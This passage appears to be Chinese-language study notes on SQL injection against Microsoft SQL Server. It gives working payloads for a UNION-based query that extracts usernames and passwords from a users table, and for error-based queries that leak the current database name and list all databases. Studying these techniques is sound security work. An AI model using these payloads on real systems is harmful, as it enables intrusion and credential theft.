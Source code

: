 #### 获取数据

```sql
id=-1'union select top 1 1,username,password from users where username not in(select top 1 username from users) and password not in(select top 1 password from users) --+
```

![image-20240905150943081](./assets/image-20240905150943081.png)

------

# 报错注入

#### 获取数据库名

```sql
id=-1'and 1=db_name() --+
```

![image-20240905155852198](./assets/image-20240905155852198.png)

#### 获取`所有`数据库名

```sql
id=1'and 1=(select quotename(name) from master.sys.databases FOR XML PATH('')) --+
```

![image-20240905161555068](./assets/image-20240905161555068.png)
